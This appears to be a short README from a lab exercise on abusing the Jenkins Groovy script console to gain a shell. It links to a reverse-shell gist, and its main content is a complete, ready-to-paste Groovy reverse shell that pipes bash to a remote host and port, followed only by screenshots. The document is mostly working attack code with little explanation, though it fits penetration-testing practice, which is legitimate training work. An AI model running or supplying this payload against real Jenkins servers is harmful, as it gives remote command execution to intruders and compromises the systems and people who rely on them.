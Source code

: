 # jenkins-abusing-groovy-script-console

#### Objective: Abuse Groovy Script console to get a shell on the Jenkins machine!

----

- [Jenkins](http://jenkins:8080/)
- [Gitlab](http://gitlab/root)
- [frohoff/revsh.groovy](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76)

----

```sh
String host="192.168.228.2";
int port=4455;
String cmd="bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

----

![](images/1.png)

![](images/2.png)

![](images/3.png)

![](images/4.png)

![](images/5.png)

----

EOF